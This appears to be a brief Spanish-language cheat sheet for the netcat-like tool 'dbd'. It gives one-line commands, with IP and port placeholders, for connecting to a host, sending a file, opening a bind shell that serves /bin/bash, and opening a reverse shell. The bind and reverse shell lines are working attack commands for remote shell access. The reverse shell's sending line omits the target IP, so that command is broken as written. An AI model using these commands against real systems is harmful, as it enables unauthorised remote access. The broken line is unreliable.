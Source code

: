 ### Conectarnos a un puerto de un host:
$ dbd {IP} {PORT} -> Conexión a un Host
### Transferir un archivo:
$ dbd -lp {PORT} -k secret > output.txt -> Host a recibir el archivo en el puerto especificado
$ cat input.txt | dbd -k secret {IP} {PORT} -> Host que envia el archivo
### Bind Shell (Linux):
$ dbd -nvlp {PORT} -e /bin/bash -> Escuchando la conexión
$ dbd {IP} {PORT} -> Conexión a la shell
### Reverse Shell (Linux):
$ dbd -nvlp {PORT} -> Escuchando la conexión
$ dbd -nv {PORT} -e /bin/bash -> Conexión al host y mandamos la shell